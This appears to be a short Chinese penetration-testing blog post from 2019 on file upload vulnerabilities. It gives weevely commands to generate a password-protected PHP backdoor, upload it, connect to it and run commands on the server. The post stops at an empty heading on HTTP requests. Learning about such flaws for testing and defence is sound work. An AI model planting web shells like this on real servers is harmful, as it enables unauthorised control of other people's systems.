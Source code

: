 ```yaml
---
layout: post
title: 'web渗透测试——漏洞发掘'
subtitle: '漏洞发掘'
date: 2019-08-07
categories: 技术
tags: 网络安全 渗透测试
---
```

## 文件上传漏洞
- 是一种简单的漏洞类型
- 允许用户上传可执行文件，如php

上传一个php shell或者backdoor，例如weevely。(生成php脚本)
1、生成backdoor
```bash
weevely generate [password] [file name]
```
- password是我们用的，自定义
- file name是自定义路径

2、上传生成的文件

3、链接

```bash
weevely [url to file] [password]
```
连接到脚本后，输入的脚本命令都可以执行，比如：pwd等，自己脑补

4、使用
连接后可以直接输入help查看可以进行哪些操作
```bash
help
```

## HTTP请求